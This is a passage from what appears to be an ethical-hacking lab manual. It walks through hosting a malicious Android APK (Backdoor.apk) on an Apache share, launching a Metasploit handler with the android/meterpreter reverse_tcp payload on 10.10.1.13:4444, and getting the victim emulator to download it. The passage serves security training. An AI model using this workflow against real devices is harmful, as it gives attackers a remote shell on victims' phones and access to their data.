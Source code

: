 Note: This command creates an APK (Backdoor.apk) on Desktop under the Root directory. In this case, 10.10.1.13 is the IP address of the Attacker Machine-2.

Note: The Payload size might differ when you perform this lab task.

Now, share or send the Backdoor.apk file to the victim machine (in this lab, we are using the Android Device as the victim machine).

Note: In this task, we are sending the malicious payload through a shared directory, but in real attacks, attackers may send payloads via an attachment in an email, over Bluetooth, or through some other application or means.

Execute the below commands to create a share folder:

Note: If the shared folder does not exist, navigate to /var/www/html and create a folder named share, using the commands below:

Type mkdir /var/www/html/share and press Enter to create a shared folder
Type chmod -R 755 /var/www/html/share and press Enter
Type chown -R www-data:www-data /var/www/html/share and press Enter
Type service apache2 start and press Enter to start the Apache web server.

Note: If you receive any error, restart the Attacker Machine-2 and perform step 9 again.

Type cp /root/Desktop/Backdoor.apk /var/www/html/share/ and press Enter to copy the Backdoor.apk file to the location share folder.

Type msfconsole and press Enter to launch the Metasploit framework.

In msfconsole, type use exploit/multi/handler and press Enter.

Issue the following commands in msfconsole:

Type set payload android/meterpreter/reverse_tcp and press Enter.
Type set LHOST 10.10.1.13 and press Enter.
Type show options and press Enter. This command lets you know the listening port (in this case, 4444), as shown in the screenshot.

Type exploit -j -z and press Enter. This command runs the exploit as a background job.

Click Target_ANDROID DEVICE to switch to the Android Device machine.

If the Android machine is non-responsive, click the Commands icon from the top-left corner of the screen and navigate to Power --> Reset/Reboot machine.

Note: If a Reset/Reboot machine pop-up appears, click Yes to proceed.

In the Android Emulator GUI, click the Chrome icon in the lower section of the Home Screen to launch the browser.

Note: If a Welcome to Chrome pop-up appears click on Accept & Continue and in the Turn on sync? page, click on No thanks.

In the address bar, type <http://10.10.1.13/share> and press Enter.

Note: If a Browse faster. Use less data. notification appears, click No thanks.

Note: If a pop up appears, click Allow.

The Index of /share page appears. Click Backdoor.apk to download the application package file.
